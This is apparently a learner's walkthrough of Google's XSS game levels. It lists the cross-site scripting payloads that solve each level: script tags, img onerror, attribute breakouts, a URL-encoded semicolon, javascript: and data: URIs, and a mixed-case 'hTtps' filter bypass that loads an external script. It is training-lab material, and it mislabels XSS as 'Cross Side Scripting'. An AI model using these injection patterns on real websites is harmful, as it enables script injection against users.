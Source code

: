 XSS Challenges
===================

XSS (Cross Side Scripting) Game located at https://xss-game.appspot.com/

Level 1: Hello, world of XSS
----------------

Very straight forward, the begginners XSS, by checking for scripts, they can be injected wherever a user can input information. 
```javascript
<script>alert(1);</script>
```

Level 2: Persistence is key
------------------
This time a basic script tag will not work, however there are other ways to invoke javascript. For instance, you can have an onerror trigger a function when an img is not found.

```javascript
<img src="foo.png" onerror="alert(1)" />
```

Level 3: That sinking feeling...
------------------
This next challenge is a bit more complicated as we can now only modify the URL itself, if we toggle the code on we can see where the hashtag data is processed. The particular line of interest is

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

This line directly takes what is passed in the header to append to the img src tag, however we can manipulate the header such that it closes the source tag and creates an onerror attribute.

```
    https://xss-game.appspot.com/level3/frame#4.png' onerror="alert(1)"/>
```

Which will result in this
```javascript
<img src="/static/level3/cloud4.png" onerror="alert(1)">
```

```javascript
function chooseTab(num) {
  // Dynamically load the appropriate image.
  var html = "Image " + parseInt(num) + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);

  window.location.hash = num;

  // Select the current tab
  var tabs = document.querySelectorAll('.tab');
  for (var i = 0; i < tabs.length; i++) {
    if (tabs[i].id == "tab" + parseInt(num)) {
      tabs[i].className = "tab active";
      } else {
      tabs[i].className = "tab";
    }
  }

  // Tell parent we've changed the tab
  top.postMessage(self.location.toString(), "*");
}
```
Level 4: Context matters
---------------------------
This  one was a bit more tricky as MVC was implemented to provide some structure, at first I tried a URL like 

```
    https://xss-game.appspot.com/level4/frame?timer=');alert('1
```

However, I eventully realized that the semicolon is not being parsed and if I pass the URL encoding of a semicolon it would work

```
    https://xss-game.appspot.com/level4/frame?timer=')%3Balert('1
```

Which results in this
```javascript
    <img src="/static/loading.gif" onload="startTimer('');alert('1');">
```

```html
<body id="level4">
  <img src="/static/logos/level4.png" />
  <br>
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
  <br>
  <div id="message">Your timer will execute in {{ timer }} seconds.</div>
</body>
```

Level 5: Breaking protocol
---------------------------------

At first this problem looks complicated, however it took me much less time now that I know to pass in URL encoded characters. After clicking sign-up, you see a page with a next href. The location to where this href goes to is entirely regulated by next=confirm, so this variable could be manipulated to make the link execute javascript.

```javascript
<a href="{{ next }}">Next >></a>
```

My method was 
```
    https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert(1)
```

Which turned the link to
```html
    <a href="javascript:alert(1)">Next &gt;&gt;</a>
```

Level 6: Follow the
------------------------

This one stumped me for quite a bit, I wanted to somehow get my javascript from babbage linked in, however the javascript checks for "http", so I couldn't figure out a solution.

I looked online and the solution was 
```
    https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```
I found this solution lame as it didn't actually load external javascript persay. One thing I wanted to try is loading the javascript file through FTP which babbage does not seem to have.

All in all, I learned quite a bit in Cross Side Scripting attacks.

I facepalmed a few minutes after writing the previous bit
=================
The code only checks for lower case! 
```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

So the real solution is 
```
    https://xss-game.appspot.com/level6/frame#hTtps://babbage.cs.missouri.edu/~ascp6/xss/alert.js
```

